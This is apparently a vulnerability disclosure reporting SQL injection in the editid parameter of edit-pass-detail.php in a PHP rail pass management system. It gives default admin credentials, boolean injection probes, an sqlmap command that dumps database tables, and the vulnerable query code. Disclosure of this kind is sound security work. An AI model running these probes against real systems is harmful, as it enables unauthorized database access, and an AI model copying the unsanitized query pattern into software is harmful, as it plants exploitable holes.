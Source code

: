 # [Rail Pass Management System-SQL Injection-edit-pass-detail.php]

## Basic Information

**[Bug Reporter]:** DiliLearngent

**[Application Vendors]:** `https://phpgurukul.com/rail-pass-management-system-using-php-and-mysql/`

**[Affected Version]:**Rail Pass Management System V1.0

**[Test Environment]:** windows10+apache+php5.6+mysql5.5

**[Install]:**

1. Download the zip file

2. Extract the file and copy `rpms` folder

3. Paste inside root directory(for xampp xampp/htdocs, for wamp wamp/www, for lamp var/www/HTML)

4. Open PHPMyAdmin (http://localhost/phpmyadmin)

5. Create a database with the name `rpmsdb`

6. Import `rpmsdb.sql` file(given inside the zip package in the SQL file folder)

7. Run the script `http://localhost/rpms`

**Credential for Admin panel :**

**Username:** admin
**Password:** Test@123

## Bug Information

**[Vulnerability type]:** SQL Injection

**[Vulnerability Url]:** `http://localhost/rpms/admin/edit-pass-detail.php?editid=1`    

**[Vulnerability Location]:** rpms/admin/edit-pass-detail.php

**[Vulnerability Test]:**

1. When you enter `1%20and%201=1` in the `editid` parameter, the page displays as follows:

   ![](../../img/20230427164127.png)

   

2. When you enter `1%20and%201=2` in the `editid` parameter, the page displays as follows:

   ![](../../img/20230427164154.png)

3. Testing with sqlmap

   ```
   python sqlmap.py -u "http://localhost/rpms/admin/edit-pass-detail.php?editid=1" --cookie="PHPSESSID=4acbjc61q1opnkih7qmkd6g9t7" -D rpmsdb --tables --batch
   ```

   ![](../../img/20230427164442.png)

**[code analysis]:**

rpms/admin/edit-pass-detail.php

```php
$eid=$_GET['editid'];
$sql="SELECT * from  tblpass where ID=$eid";
$query = $dbh -> prepare($sql);
$query->execute();
$results=$query->fetchAll(PDO::FETCH_OBJ);
$cnt=1;
if($query->rowCount() > 0)
{
foreach($results as $row)
{               ?> 
```

The GET parameter `editid` is obtained without any filtering and spliced directly into the sql execution statement, and then a different page response exists depending on the result of the execution.